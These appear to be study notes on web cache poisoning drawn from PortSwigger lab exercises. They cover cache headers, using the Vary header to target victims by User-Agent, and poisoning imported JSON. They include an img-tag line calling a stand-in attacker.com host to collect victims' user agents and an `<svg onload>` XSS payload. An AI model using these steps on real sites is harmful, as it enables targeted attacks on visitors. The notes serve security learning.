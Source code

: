 ## Exploiting Response that expose Too much information

### Cache control Directives

- one challenge wile constructing Web cache poisoning is whether the harmful response is get cached.
- this require manual trial and error, need to study the behavior of cached response.
`example:` revel how old currently cached response.

```
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800

```

although this doesnt directly lead to web cache poisoning vulnerability, it save some time and effort for attacker to do less manual work on when the new response is cached and when attacker can poison cache.

### Vary header

- `Vary` header is often used can also provide attackers with a helping hand
- it specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed.
- commonly used to specify the `user-agent` is keyed,
- example: if the mobile version is cached, this won't be served to non-mobile users by mistake.
- This information can also be used to construct a multi-step attack to target a specific subset of users. For example, if the attacker knows that the `User-Agent` header is part of the cache key, by first identifying the user agent of the intended victims, they could tailor the attack so that only users with that user agent are affected.
[lab Targeted web cache poisoning using unknown header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header)
- since using `param miner` we found header which unkeyed and used to request the .js file we exploit them using crafting malicious .js files
- but there is `vary`: user-agent that means the cache is only available to only that user agent which we have used to send the request not other.
- so we need to identify user-agent for victim
- there is comment section, that allows HTML tags we use `<img src="https:/attacker.com/anything"`
- and change the user agent and repeat the request until `X-cache: hit` and we successfully exploited it

## Using Web Cache Poisoning TO exploit Dom based Vulnerabilities

- if website unsafely uses unkeyd headers to import files, this can potentially be exploited by an attacker to import a malicious file instead, how applied to more than just JS files.
- Example: attacker poison cache with a response that imports a `JSON` file containing the following payload
`{"SomeProperty": "<svg onload=alert(0)>"}`
if web passes the value to of this property to `sink` that supports `Dynamic code execution` , the payload would be executed in the context of victim's browser session.
